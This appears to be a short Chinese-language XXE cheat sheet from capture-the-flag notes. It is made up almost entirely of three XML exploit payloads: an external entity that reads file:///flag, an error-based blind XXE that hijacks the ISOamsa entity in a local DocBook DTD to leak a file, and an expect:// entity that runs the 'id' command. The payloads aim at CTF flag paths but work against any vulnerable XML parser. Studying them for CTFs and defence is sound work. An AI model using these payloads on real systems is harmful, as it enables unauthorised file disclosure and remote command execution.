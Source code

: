 # XXE

## 外部实体 (libxml < 2.90)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "file:///flag">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```


## Blind-XXE 引用本地DTD
利用 ISOamsa

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %local_dtd;
]
```

## except:// 协议rce

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "expect://id">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```
## 参考资料

https://xz.aliyun.com/t/3357